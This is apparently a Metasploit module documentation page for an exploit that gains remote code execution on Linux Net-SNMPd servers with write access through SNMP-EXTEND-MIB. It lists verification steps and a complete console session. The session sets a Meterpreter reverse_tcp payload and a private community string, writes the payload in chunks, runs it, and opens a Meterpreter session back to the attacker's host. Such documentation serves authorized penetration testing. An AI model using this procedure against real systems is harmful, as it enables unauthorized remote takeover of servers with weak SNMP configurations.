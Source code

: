 ## Vulnerable Application

  This module uses SNMP extension MIBs to enable remote code execution on the Linux Net-SNMPD servers using the 
  SNMP-EXTEND-MIB.

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/snmp/net_snmpd_rw_access`
  3. Do: `set rhost [IP]`
  4. Do: `set community [SNMP Community]`
  5. Do: `set version [SNMP Version]`
  6. Configure the payload
  7. Do: `run`
  8. You should get a session


## Scenario

  ```
  msf > use exploit/linux/snmp/net_snmpd_rw_access 
  msf exploit(linux/snmp/net_snmpd_rw_access) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/snmp/net_snmpd_rw_access) > set rhost 192.168.1.3
  rhost => 192.168.1.3
  msf exploit(linux/snmp/net_snmpd_rw_access) > set lhost 192.168.1.2
  lhost => 192.168.1.2
  msf exploit(linux/snmp/net_snmpd_rw_access) > set community private
  community => private
  msf exploit(linux/snmp/net_snmpd_rw_access) > set version 2c
  version => 2c

  msf exploit(linux/snmp/net_snmpd_rw_access) > show info
  
         Name: Net-SNMPd Write Access SNMP-EXTEND-MIB arbitrary code execution
       Module: exploit/linux/snmp/net_snmpd_rw_access
     Platform: 
         Arch: 
   Privileged: No
      License: Metasploit Framework License (BSD)
         Rank: Normal

  Provided by:
    Steve Embling at InteliSecure

  Available targets:
    Id  Name
    --  ----
    0   Linux x86

  Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    CHUNKSIZE  200              yes       Maximum bytes of payload to write at once 
    COMMUNITY  private          yes       SNMP Community String
    FILEPATH   /tmp             yes       file path to write to 
    RETRIES    1                yes       SNMP Retries
    RHOST      192.168.1.3      yes       The target address
    RPORT      161              yes       The target port (UDP)
    TIMEOUT    1                yes       SNMP Timeout
    VERSION    2c               yes       SNMP Version <1/2c>

  Payload information:
    Space: 4096

  Description:
    This exploit module exploits the SNMP write access configuration 
    ability of SNMP-EXTEND-MIB to configure MIB extensions and lead to 
    remote code execution.

  References:
    https://www.intelisecure.com

  msf exploit(linux/snmp/net_snmpd_rw_access) > run

  [*] Started reverse TCP handler on 192.168.1.2:4444 
  [*] Writing to NET-SNMP-EXTEND-MIB with given payload
  [*] Payload generated. Sending in 200 byte chunk increments.
  [*] Sent chunked executable. Now executing payload
  [*] Sending stage (849108 bytes) to 192.168.1.3
  [+] SNMP request timeout (this is promising).

  meterpreter > exit
  [*] Shutting down Meterpreter...
 
  [*] 192.168.1.3 - Meterpreter session 1 closed.  Reason: User exit
  ```
